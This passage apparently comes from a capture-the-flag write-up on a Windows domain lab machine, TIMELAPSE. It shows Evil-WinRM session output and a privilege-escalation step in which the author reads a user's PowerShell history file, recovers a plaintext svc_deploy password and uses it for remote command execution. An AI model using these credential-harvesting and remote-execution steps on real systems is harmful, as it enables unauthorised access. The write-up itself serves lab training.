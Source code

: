 ```powershell
TIMELAPSE\Development                       Group            S-1-5-21-671920749-559770252-3318990721-3101 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We find three new users, `Administrator`, `svc_deploy` and `TRX`.
```powershell
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```


-----------------

### Step 2
From the SMB share we found some LAPS documentation, so the privesc probably have something to do with this.
Microsoft’s LAPS is a client side extension which runs a single dll that manages password (``AdmPwd.dll``).
The dll is present in ``C:\Program Files\LAPS\CSE\AdmPwd.dll``, download it.

```powershell
*Evil-WinRM* PS C:\Program Files\LAPS\CSE> download "C:\Program Files\LAPS\CSE\AdmPwd.dll"
```

However we are a low privileged user so we can't poison the dll.. For a quick win check the history and  we find a new set of creds: `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
And also got code execution as user `svc_deploy`
```powershell
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
